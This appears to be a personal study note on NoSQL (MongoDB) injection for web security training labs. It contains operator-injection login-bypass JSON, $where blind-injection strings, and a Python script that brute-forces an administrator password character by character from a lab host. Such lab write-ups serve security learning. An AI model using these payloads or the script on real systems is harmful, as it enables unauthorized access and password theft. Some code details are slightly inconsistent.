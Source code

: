 ----------------

### NOSQL Injection

-----------------

- This form of injection is typical to non sql databases e.g mongodb, cypher and others.This will focus more on mongodb.

----------------

- Types-:
  - Syntax injection-: This occurs when you can break the NoSQL query syntax, enabling you to inject your own payload. The methodology is similar to that used in SQL injection. However the nature of the attack varies significantly, as NoSQL databases use a range of query languages, types of query syntax, and different data structures.
  - Operators injection-:  This occurs when you can use NoSQL query operators to manipulate queries.


----------------  

- Operator injection-: NoSQL databases often use query operators, which provide ways to specify conditions that data must meet to be included in the query result.
- Examples-:

| **Operator** |      **Description**        |
|--------------|---------------------|
|$where | Matches documents that satisfy a JavaScript expression.|
|$ne | Matches all values that are not equal to a specified value|
|$in |Matches all of the values specified in an array. |
|$regex | Selects documents where values match a specified regular expression.|
| $nin  | not in an array |

- SOlving the lab with `$nin`-:

```json
{"username":{"$nin":["carlos","wiener"]},"password":{"$ne":""}}
```

------------------

### Exploiting syntax injection to extract data

-----------------

- In many NoSQL databases, some query operators or functions can run limited JavaScript code, such as MongoDB's `$where` operator and `mapReduce()` function. This means that, if a vulnerable application uses these operators or functions, the database may evaluate the JavaScript as part of the query. You may therefore be able to use JavaScript functions to extract data from the database.
- Brief Example-:
- Vulnerable code-:
```js
{"$where":"this.username == 'admin'"}
```
- Injecting it to dump sensitive data-:

```
admin' && this.password[0] == 'a' || 'a'=='b
```

- Oops,it is blind,let's exfil other info with `match` js function that relies on regex, you'll also notice that the last quotes is removed to match the quote in the statement-:

```
admin' && this.password.match('^a') && '1'=='1
```
- Also, you can use `startswith()` in some instances, works in a nice manner than match because of special characters usage and you just need to comment `'` with `\\'`.

```
admin' && this.password.startswith('a') && '1'=='1
```

- Dumping the password with startswith() payload + python

```python3
#! /usr/bin/env python3
import requests
import asyncio
import string

#Replace host and cookie
#necessary variables
url: str = "https://0a0800e204bc44f580d6087f008e00af.web-security-academy.net"

async def main():
     headers = {"Cookie":"session=57tR4BdA7pjntM4pix5exS2nVIjtMSI3; Secure","User-Agent":"Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36Sec-Ch-Ua: \"Chromium\";v=\"140\", \"Not=A?Brand\";v=\"24\", \"Brave\";v=\"140\""}
     path = "/user/lookup"
     charset = string.ascii_letters + '1234567890' + string.punctuation 
     found_char = ""
     while True:
         for char in charset:
            special_chars = "\\'"
            if char in special_chars: char = '\\' + char
            payload = f"administrator'%26%26this.username=='administrator'%26%26this.password.startsWith('{found_char + char}')%26%26'1'=='1"
            result = requests.get(url + path + "?user="+ payload,headers=headers).text
            if len(result) ==  96:
               found_char += char
               print(f"[+] Found_char::{found_char}")
               break

if __name__ == "__main__":
    asyncio.run(main())
```
